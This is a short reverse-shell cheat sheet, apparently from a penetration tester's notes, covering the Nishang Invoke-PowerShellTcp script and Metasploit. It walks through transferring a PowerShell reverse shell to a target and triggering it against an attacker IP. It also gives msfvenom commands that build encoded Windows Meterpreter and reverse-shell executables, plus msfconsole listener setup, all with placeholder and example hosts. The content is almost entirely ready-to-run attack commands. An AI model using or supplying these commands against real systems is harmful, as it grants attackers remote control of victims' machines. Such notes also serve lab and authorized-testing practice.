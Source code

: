 # Reverse Shells

* [Nishang Invoke PowerShell TCP](#nishang-invoke-powershell-tcp)
* [Windows Meterpreter Reverse Shell](#windows-meterpreter-reverse-shell)

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket charactors themselves [ ] require removal. See examples.
*********************************************************************************

## Nishang Invoke PowerShell TCP

1. Paste this nishang file into a blank text document: https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
2. Name it "Invoke-PowerShellTcp.ps1" (remove quotes)
3. Transfer the newly created file to the target machine by any means
4. Have the target machine trigger this command:
```
Invoke-PowerShellTcp -Reverse -IPAddress [ATTACK-IP] -Port [PORT]
```
Example: 
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.66.69 -Port 8686
```
********************************************************************************
## Windows Meterpreter Reverse Shell

1. Use this command to create a Windows Meterpreter reverse shell: 
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[ATTACK-IP] LPORT=[PORT] -f exe -o [OUTPUT-FILE]
```
Example: 
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.66.69 LPORT=8686 -f exe -o exploit.exe
```

2. Transfer the file to target machine by any means
3. Start the listener on attack machine:
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST [attack-ip] 
set LPORT [listening-port] 
run
```
********************************************************************************
Another way to generate a reverse shell as an Windows executable:
```
msfvenom -p windows/shell_reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -e x86/shikata_ga_nai -f exe-service -o [FILE]
```
